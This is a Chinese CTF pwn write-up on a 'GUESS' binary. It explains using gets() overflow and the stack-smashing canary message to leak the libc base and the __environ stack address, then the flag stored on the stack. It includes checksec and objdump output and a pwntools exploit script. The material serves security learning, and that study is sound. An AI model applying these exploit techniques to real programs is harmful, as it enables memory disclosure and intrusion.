  ```java 
  gets(&s2);
  if ( !strcmp(&buf, &s2) )
    puts("You must have great six sense!!!! :-o ");
  else
    puts("You should take more effort to get six sence, and one more challenge!!");
  return 0LL;
}

pwn@pwn-PC:~/Desktop$ checksec GUESS 
[*] '/home/pwn/Desktop/GUESS'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)


  ``` 
  
先捋一捋流程首先由于使用了gets，因此可以无限制溢出，并且有三次机会。然后发现flag.txt中flag值通过read(SHIDWORD(stat_loc.__iptr), &buf, 0x30uLL)读入到了栈中，&buf处。最后开启了canary，可以使用stack smashing的方法泄漏处flag的值。那么怎样去构造呢？想要获取flag的值，就得获取buf的栈中的地址，因为ASLR的原因，那么需要先泄漏libc的基址，根据偏移去计算出加载后的栈中buf的地址。但是现在问题是得到了libc的的加载地址，怎么算出stack的加载地址，因为每次加载的时候，两者相距的长度变化的。解决的办法就是找一个与stack的加载地址的偏移量不变的参照物，或者说与buf的栈地址偏移量不变的参照物，此参照物可以根据已有的条件计算出实际的加载地址。此时就需要补充一个知识点：在libc中保存了一个函数叫environ，存的是当前进程的环境变量，environ指向的位置是栈中环境变量的地址，其中environ的地址 = libc基址 + _environ的偏移量，也就说在内存布局中，他们同属于一个段，开启ASLR之后相对位置不变，偏移量和libc库有关，environ的地址(&environ)和libc基址的偏移量是不会的，并且通过&environ找到_environ内存单元中的值是栈中环境变量的地址，根据此地址可以找到环境变量。 
 
 ```java 
  pwn@pwn-PC:~/Desktop$ objdump -d /usr/lib/x86_64-linux-gnu/libc-2.24.so | grep __environ
dc97d:  48 c7 05 c0 f5 2b 00    movq   $0xfff,0x2bf5c0(%rip)        # 39bf48 <__environ@@GLIBC_2.2.5+0x10>
.....


  ``` 
  
__environ在libc中的偏移量为0x39bf38。![Test](https://www.hetianlab.com/specialized/headImg.action?news=ae049e09-2ea3-4143-a7d4-4971a19aec22.png  '栈溢出技巧（下）') 
这样一来，栈中environ的值和buf的栈地址的相对位置是固定的，可以根据environ的值-偏移量=buf的栈地址。那么程序中这三次输入分别是：第一次，通过泄露函数的got表内容，计算得到libc基址。第二次，通过libc基址和偏移量计算得到&environ，获取environ的值。第三次，通过_environ的值，计算出buf的栈地址，泄露buf中存储的flag的值。步骤如下：第一次泄漏libc基址 
 
 ```java 
  from pwn import *
# context.arch = 'amd64'
# context.log_level = 'debug'
# context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
p = process('./GUESS')
elf = ELF("./GUESS")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
gets_got = elf.got['gets']
# print hex(gets_got)
p.recvuntil('guessing flag\n')
payload = 'a' * 0x128 + p64(gets_got)
p.sendline(payload)
p.recvuntil('detected ***: ')
gets_addr = u64(p.recv(6).ljust(0x8,'\x00'))
libc_base_addr = gets_addr - libc.symbols['gets']
print 'libc_base_addr: ' + hex(libc_base_addr)

pwn@pwn-PC:~/Desktop$ python exp.py 
[+] Starting local process './GUESS': pid 28733
[*] '/home/pwn/Desktop/GUESS'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
 ```